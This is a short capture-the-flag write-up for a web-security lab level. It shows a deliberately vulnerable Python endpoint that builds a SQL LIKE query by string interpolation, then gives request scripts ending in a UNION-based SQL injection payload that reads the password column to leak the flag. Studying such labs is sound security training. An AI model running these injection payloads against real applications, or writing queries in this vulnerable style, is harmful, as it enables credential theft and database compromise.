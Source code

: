 ## Web-security level 5

* This level is about leaking the database information by using SQL injection. 

> Source Code :
```py
def level5():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? AS password'),
               (flag,))

    query = request.args.get("query", "%")
    users = db.execute(f'SELECT username FROM users WHERE username LIKE "{query}"').fetchall()
    return "".join(f'{user["username"]}\n' for user in users)
```


* The query uses `LIKE`, which return the similar value to the search `item`.
* The `LIKE` operator is uses like `regex` function.
* Here `%` is use in `LIKE`, 
* [Resource : LIKE Query](https://www.sqlitetutorial.net/tryit/query/sqlite-like/#1)

> Example : 
```sql

    LIKE %W
--  This will find the word, which ends with letter "W"

    LIKE W%
--  This will find the word, which starts with letter "W" 

    LIKE %W%
--  This will find the word, which Contain the letter "W" 
```

> Example : This query will find the list item. 
```py
import requests as rq
    data = {
        "query": "f%"
        }
    url = "http://challenge.localhost:80"
    response = rq.post(url, params=data)
    print(response, "\n", response.text)
```
> Result :
 
```plain
<Response [200]> 
 flag
```

* In SQL we use `UNION` function to query multiple items in databases.
* The query will looks something like this.

```py
import requests as rq
    data = {
        'query': '" UNION SELECT password FROM users --'
        }
    url = "http://challenge.localhost:80"
    response = rq.post(url, params=data)
    print(response, "\n", response.text)
```
* This will return the flag.
